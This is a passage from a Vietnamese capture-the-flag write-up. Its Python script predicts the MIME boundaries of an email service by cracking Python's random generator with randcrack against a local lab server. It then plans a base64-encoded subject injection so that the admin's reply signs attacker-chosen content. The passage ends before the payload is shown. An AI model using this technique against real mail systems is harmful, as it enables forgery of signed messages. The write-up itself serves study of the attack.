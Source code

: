 ```python
	res = requests.post('http://127.0.0.1:8000/api/send', headers=headers, json=json_data, verify=False)
	res2 = requests.get(f'http://127.0.0.1:8000/api/email/{res.text.replace("\"", "")}', headers=headers, verify=False)
	data = res2.json()['data']
	boundary = int(re.findall(r"===(\d+)==",data)[0])
	b = bin(boundary)[2:].zfill(63)
	low = b[:31]
	high = b[31:]
	low = low + '?'
	cracker.submit(high)
	cracker.submit(low)

randcrack = cracker.get_random()
for _ in tqdm.trange(10):
	

	res = requests.post('http://127.0.0.1:8000/api/send', headers=headers, json=json_data, verify=False)
	res2 = requests.get(f'http://127.0.0.1:8000/api/email/{res.text.replace("\"", "")}', headers=headers, verify=False)
	data = res2.json()['data']
	
	real_boundary = int(re.findall(r"===(\d+)==",data)[0])
	crack_boundary = randcrack.getrandbits(63)
	
	print(real_boundary, crack_boundary)
```

Khi chạy thì mình có thể predict các số 63 bit tiếp theo của random và cũng là boundary của các email tiếp theo 

![image](https://hackmd.io/_uploads/rJAzrLChyx.png)

#### Using Base64 encoding to encode newline character

Ok chúng ta đã crack được boundary nhưng còn một vấn đề là về signature. Làm sao để tận dụng được boundary để sử dụng private key? Khi admin reply thì mình nhận ra nó sẽ lấy subject của tin nhắn trước như sau 

![image](https://hackmd.io/_uploads/BykrFKCnyl.png)

Từ đó mình có thể sử dụng boundary của email tiếp theo để khi reply admin sẽ tiến hành signature cái subject mà mình chèn vào từ email trước nhưng mà làm thế nào ?

ở đây sinh ra thêm môt vấn đề nữa là endline của mình sẽ bị thực thi trong email đầu chứ không phải email sau. nên mình tìm cách để chèn endline vào mà khi reply nó mới thực thi. Và mình có thể sử dụng base64 để encode lại như sau https://datatracker.ietf.org/doc/html/rfc2047#section-8:~:text=4.1.%20The%20%22B%22%20encoding%0A%0A%20%20%20The%20%22B%22%20encoding%20is%20identical%20to%20the%20%22BASE64%22%20encoding%20defined%20by%20RFC%0A%20%20%202045.

Ok thì mình có thê truyền một subject như sau
